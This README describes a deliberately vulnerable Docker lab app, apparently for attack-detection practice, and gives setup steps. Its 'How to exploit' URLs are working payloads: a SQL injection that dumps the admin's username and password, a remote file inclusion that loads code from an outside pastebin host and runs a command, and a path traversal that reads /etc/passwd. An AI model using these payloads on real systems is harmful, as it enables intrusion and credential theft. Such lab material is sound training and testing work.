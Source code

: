 # Alpha and Beta app #

Before you run alpha and beta app, please install docker and docker-compose.

### How to run Alpha and Beta app? ###

* Clone this repository
* Run `sudo docker-compose build`
* Run `sudo docker-compose up`
* Run `sudo docker-compose exec beta bash`
* Inside bash shell of beta app, run:

  ```
  /app# flask db upgrade
  /app# exit
  ```
  
Note: <br>
a. IP <b>172.17.0.1</b> is Docker IP. Please adjust with your own Docker IP.<br>
b. It need port 65412 for alpha, 10000 for beta and 3306 for MySQL. Please free-up those ports on your machine.


### Endpoint Alpha ###

* Vulnerable SQL Injection

  [http://172.17.0.1:65412/?id=2](http://172.17.0.1:65412/?id=2)
  
  How to exploit : 

  [http://172.17.0.1:65412/?id=2%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20(SELECT%20id%7C%7C%27%2C%27%7C%7Cusername%7C%7C%27%2C%27%7C%7Cpassword%20FROM%20users%20WHERE%20username%3D%27admin%27)](http://172.17.0.1:65412/?id=2%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20(SELECT%20id%7C%7C%27%2C%27%7C%7Cusername%7C%7C%27%2C%27%7C%7Cpassword%20FROM%20users%20WHERE%20username%3D%27admin%27))

* Vulnerable Remote File Inclusion

  [http://172.17.0.1:65412/?include=](http://172.17.0.1:65412/?include=)

  How to exploit :

  [http://172.17.0.1:65412/?include=http%3A%2F%2Fpastebin.com%2Fraw.php%3Fi%3D6VyyNNhc&cmd=ifconfig](http://172.17.0.1:65412/?include=http%3A%2F%2Fpastebin.com%2Fraw.php%3Fi%3D6VyyNNhc&cmd=ifconfig)

* Vulnerable Path Traversal

  [http://172.17.0.1:65412/?path=](http://172.17.0.1:65412/?path=)

  How to exploit :

  [http://172.17.0.1:65412/?path=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd](http://172.17.0.1:65412/?path=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd)

  
### Endpoint Beta ###

  To get list of attacks activity:

  [http://172.17.0.1:10000/attacks](http://172.17.0.1:10000/attacks)
